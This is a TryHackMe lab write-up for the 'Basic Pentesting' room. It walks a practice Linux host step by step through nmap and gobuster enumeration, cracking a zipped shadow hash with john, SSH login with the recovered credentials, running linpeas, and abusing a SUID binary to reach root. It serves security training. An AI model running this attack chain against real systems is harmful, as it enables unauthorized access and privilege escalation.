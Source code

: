 # Basic Pentesting 💻

**Platform**: [TryHackMe](https://tryhackme.com)  
**Room Link**: https://tryhackme.com/room/basicpentestingjt  
**Difficulty**: Easy  
**Tags**: `#enum`, `#web`, `#ssh`, `#priv-esc`, `#linux`, `#suid`  
**Date Completed**: March 2025  
**Author**: [CyDieLia](https://github.com/CediLia).

---

## 📌 Room Overview

- **Goal**: Enumerate, gain access to a vulnerable Linux system, escalate privileges to root.
- **Skills Practiced**: Service enumeration, SSH brute force, Linux privilege escalation, SUID abuse.
- **Tools Used**:  
  `nmap`, `gobuster`, `hydra`, `john`, `ssh`, `linpeas`, `strings`

---

## 🧭 Target Info

| Field       | Value               |
|-------------|---------------------|
| Target IP   | `10.10.10.27`        |
| OS          | Linux               |
| Services    | 22 (SSH), 80 (HTTP) |
| Notes       | Web server leads to credential discovery; privilege escalation is SUID-based

---

## 📚 Summary – Attack Flow

| 🧩 Phase           | 💡 Technique Used                                                   |
|--------------------|---------------------------------------------------------------------|
| 🔍 Enumeration     | `nmap`, `gobuster`, manual web recon                                 |
| 🔑 Initial Access  | SSH login via cracked credentials from `backup.zip`                 |
| ⚙️ Privilege Esc.  | Exploited SUID binary `/usr/bin/secret` to get a root shell         |
| 🛠️ Tools Used      | `hydra`, `john`, `linpeas`, `ssh`, `strings`                         |

> 🧠 **Key Takeaway**: A `.zip` file and a quiet SUID binary were all it took — *this room is a perfect reminder to enumerate smarter, not harder.*

---

## 🔍 Enumeration

### 🔹 Nmap Scan
``nmap -sC -sV -oN basicpentesting-nmap.txt 10.10.10.27``

Discovered:
🔸22/tcp — OpenSSH 7.6p1

🔸80/tcp — Apache httpd 2.4.29

🔹 Web Recon

Visited http://10.10.10.27 in browser → default Apache page.

### Used gobuster for directory fuzzing:
``gobuster dir -u http://10.10.10.27 -w /usr/share/wordlists/dirb/common.txt -x php,txt,zip```

## Results:
🔸/development/
🔸/backup.zip

## 🔑 Initial Access
🔸 Downloaded /backup.zip

Extracted and found a password-protected shadow file.
🔸 Cracked Hash with John
``john --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash``

### Recovered credentials:
🔸user: user
🔸pass: qwertyuiop
🔸 Gained SSH Access

```ssh user@10.10.10.27```


# ⚙️ Privilege Escalation
🔸 Local Enumeration with LinPEAS

## Transferred linpeas.sh using scp:
``scp linpeas.sh user@10.10.10.27:/tmp``

### Executed:
``chmod +x linpeas.sh && ./linpeas.sh``

### Findings:
🔸SUID binary found: /usr/bin/secret
🔸 Manual Inspection
``strings /usr/bin/secret``

Discovered the binary calls /bin/bash — classic misconfigured SUID.
🔸 Root Access Gained
``/usr/bin/secret
whoami
# root``

---

## 🧠 Lessons Learned

| 💭 Concept             | 💡 What I Took Away                                                         |
|------------------------|---------------------------------------------------------------------------|
| File Looting 🗂️        | `.zip` archives might hide critical credentials or clues                  |
| SUID Exploitation ⚙️   | Always analyze SUID binaries with `strings`, `ltrace`, or manual execution |
| Wordlist Power 💥      | `rockyou.txt` cracks weak hashes like magic                               |
| Full Chain Practice ⛓️ | End-to-end flow: Web ➜ Creds ➜ Shell ➜ Root                               |
| Writeups Matter ✍️     | Documenting each step locked the entire attack chain in memory            |

> 📓 _“Backups are for recovery… or root access.”_ — cyber goblin

---

## 📎 References

- [TryHackMe Room – Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
- [GTFOBins – SUID Binaries](https://gtfobins.github.io/)
- [HackTricks – Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [John the Ripper](https://www.openwall.com/john/)
- [Linux SUID Exploits](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

<details>
  <summary>💬 Extra Notes / Struggles Faced</summary>

- Originally overlooked `/development/` because I didn't filter `.zip` in Gobuster.
- Forgot to try `strings` until after running LinPEAS — next time: check SUIDs manually too.
- This room reinforced the importance of attacking the **entire chain**, not just the first shell.

</details>

